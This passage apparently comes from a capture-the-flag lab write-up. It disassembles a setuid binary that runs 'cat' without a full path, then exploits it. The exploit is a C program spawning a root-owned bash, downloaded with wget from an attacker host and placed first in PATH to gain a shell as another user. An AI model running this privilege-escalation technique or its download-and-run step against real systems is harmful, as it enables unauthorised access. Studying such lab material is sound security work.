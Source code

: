 ```
|           0x08048466      89e5           mov ebp, esp
|           0x08048468      51             push ecx
|           0x08048469      83ec04         sub esp, 4
|           0x0804846c      83ec08         sub esp, 8
|           0x0804846f      68ea030000     push 0x3ea                  ; 1002
|           0x08048474      68ea030000     push 0x3ea                  ; 1002
|           0x08048479      e8b2feffff     call sym.imp.setreuid
|           0x0804847e      83c410         add esp, 0x10
|           0x08048481      83ec08         sub esp, 8
|           0x08048484      68ea030000     push 0x3ea                  ; 1002
|           0x08048489      68ea030000     push 0x3ea                  ; 1002
|           0x0804848e      e8bdfeffff     call sym.imp.setregid
|           0x08048493      83c410         add esp, 0x10
|           0x08048496      83ec0c         sub esp, 0xc
|           0x08048499      6840850408     push str.cat__home_mike_msg.txt ; 0x8048540 ; "cat /home/mike/msg.txt"
|           0x0804849e      e86dfeffff     call sym.imp.system         ; int system(const char *string)
|           0x080484a3      83c410         add esp, 0x10
|           0x080484a6      8b4dfc         mov ecx, dword [local_4h]
|           0x080484a9      c9             leave
|           0x080484aa      8d61fc         lea esp, dword [ecx - 4]
\           0x080484ad      c3             ret
```

The binary called `cat /home/mike/msg.txt` so what we can do is:
1. create own code that spawns a shell
2. compile the code and name the binary `cat`
3. upload to server
4. adjust server `PATH` variable so that `/home/kane` comes first and our `cat` binary is executed

Let's begin with source code:

```
#include<stdio.h>
#include<unistd.h>
#include<sys/types.h>

int main() {
	setuid(geteuid());
	system("/bin/bash");
	return 0;
}
```

Compile with `gcc -m32 -o cat shell.c`, upload to the server and adjust `PATH`:

```
kane@pwnlab:/$ wget 192.168.56.101:8000/cat
kane@pwnlab:/$ ls /home/kane
ls /home/kane
cat  msgmike
kane@pwnlab:/$ export PATH=/home/kane:$PATH
export PATH=/home/kane:$PATH
kane@pwnlab:/$ echo $PATH
echo $PATH
/home/kane:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
kane@pwnlab:/$ which cat
which cat
/home/kane/cat
kane@pwnlab:/$ /home/kane/msgmike
/home/kane/msgmike
mike@pwnlab:/$ 
```
